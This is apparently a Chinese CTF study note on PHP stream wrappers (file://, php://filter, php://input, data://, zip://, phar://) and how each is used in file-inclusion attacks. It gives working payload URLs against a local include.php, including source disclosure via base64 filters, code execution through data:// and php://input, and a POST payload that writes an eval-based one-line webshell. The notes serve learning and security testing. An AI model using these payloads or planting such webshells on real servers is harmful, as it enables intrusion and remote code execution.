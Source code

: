 ```yaml
---
title: 伪协议
date: 2023-05-12 22:58:32
categories:
- 网络安全
tags:
- web
toc: true
description: |
    得找个时间学php
---
```


### file:// 协议

条件：
`allow_url_fopen:off/on`
`allow_url_include :off/on`
作用：
用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受`allow_url_fopen与allow_url_include`的影响。
`include()/require()/include_once()/require_once()`参数可控的情况下，如导入为非.php文件，则仍按照php语法进行解析，这是include()函数所决定的。
说明：
file:// 文件系统是 PHP 使用的默认封装协议，展现了本地文件系统。当指定了一个相对路径（不以/、、\或 Windows 盘符开头的路径）提供的路径将基于当前的工作目录。在很多情况下是脚本所在的目录，除非被修改了。使用 CLI 的时候，目录默认是脚本被调用时所在的目录。在某些函数里，例如 `fopen()` 和 `file_get_contents()，include_path` 会可选地搜索，也作为相对的路径。
用法：

```bash
/path/to/file.ext
relative/path/to/file.ext
fileInCwd.ext
C:/path/to/winfile.ext
C:\path\to\winfile.ext
\\smbserver\share\path\to\winfile.ext
file:///path/to/file.ext
```

示例：

- file://[文件的绝对路径和文件名]

`http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt`

- [文件的相对路径和文件名]

`http://127.0.0.1/include.php?file=./phpinfo.txt`

- [http：//网络路径和文件名]
`http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt`

### php:// 协议

条件：
`allow_url_fopen:off/on`
`allow_url_include :仅php://input php://stdin php://memory`
`php://temp 需要on`
作用：
php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是`php://filter`和`php://input`，`php://filter`用于读取源码，`php://input`用于执行php代码。
说明：
PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符，
内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

作用

```bash
php://input:可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。
php://output:只写的数据流，允许以 print 和 echo 一样的方式写入到输出缓冲区。
php://fd:(>=5.3.6)允许直接访问指定的文件描述符。例如 php://fd/3 引用了文件描述符 3。
php://memory php://temp(>=5.1.0)一个类似文件包装器的数据流，允许读写临时数据。两者的唯一区别是 php://memory 总是把数据储存在内存中，而 php://temp 会在内存量达到预定义的限制后（默认是 2MB）存入临时文件中。临时文件位置的决定和 sys_get_temp_dir() 的方式一致。
php://filter:(>=5.0.0)一种元封装器，设计用于数据流打开时的筛选过滤应用。对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、file() 和 file_get_contents()，在数据流内容读取之前没有机会应用其他过滤器。
```

#### php://filter参数详解

该协议的参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递。具体参考如下：
php://filter 参数描述

- resource=<要过滤的数据流>必须项。它指定了你要筛选过滤的数据流。
- read=<读链的过滤器>可选项。可以设定一个或多个过滤器名称，以管道符`*\ *`分隔。
- write=<写链的过滤器>可选项。可以设定一个或多个过滤器名称，以管道符`\`分隔。
- <; 两个链的过滤器>任何没有以 read= 或 write= 作前缀的筛选器列表会视情况应用于读或写链。

可用的过滤器列表（4类）

- 字符串过滤器
string.rot13 等同于str_rot13()，rot13变换
string.toupper 等同于strtoupper()，转大写字母
string.tolower 等同于strtolower()，转小写字母
string.strip_tags 等同于strip_tags()，去除html、PHP语言标签
- 转换过滤器
convert.base64-encode & convert.base64-decode 等同于base64_encode()和base64_decode()，base64编码解码
convert.quoted-printable-encode & convert.quoted-printable-decode quoted-printable 字符串与 8-bit 字符串编码解码
- 压缩过滤器
zlib.deflate & zlib.inflate 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。
bzip2.compress & bzip2.decompress 同上，在本地文件系统中创建 bz2 兼容文件的方法。
- 加密过滤器
mcrypt.*libmcrypt 对称加密算法
mdecrypt.* libmcrypt 对称解密算法
示例：

`php://filter/read=convert.base64-encode/resource=[文件名]读取文件源码（针对php文件需要base64编码）`

`http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php`

`php://input + [POST DATA]执行php代码`

```bash
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>
图片描述
```

若有写入权限，写入一句话木马

```bash
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

### zip:// & bzip2:// & zlib:// 协议

条件：
`allow_url_fopen:off/on`
`allow_url_include :off/on`
作用：zip:// & bzip2:// & zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等。
示例：

zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）

压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

`http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt`

`compress.bzip2://file.bz2`

压缩 `phpinfo.txt` 为` phpinfo.bz2 `并上传（同样支持任意后缀名）

`http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2`

`compress.zlib://file.gz`

压缩` phpinfo.txt `为`phpinfo.gz` 并上传（同样支持任意后缀名）

`http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz`

### data:// 协议

条件：
`allow_url_fopen:on`
`allow_url_include :on`
作用：自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
用法：

`data://text/plain,`
`data://text/plain;base64,`
示例：

```bash
data://text/plain,

http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>

or

data://text/plain;base64,

http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

### `http://`和`https://`协议

条件：
`allow_url_fopen:on`
`allow_url_include :on`
作用：常规 URL 形式，允许通过 HTTP 1.0 的 GET方法，以只读访问文件或资源。CTF中通常用于远程包含。
用法：

```bash
http://example.com
http://example.com/file.php?var1=val1&var2=val2
http://user:password@example.com
https://example.com
https://example.com/file.php?var1=val1&var2=val2
https://user:password@example.com
```

示例：
`http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt`

### phar:// 协议

phar://协议与zip://类似，同样可以访问zip格式压缩包内容，在这里只给出一个示例：

`http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt`

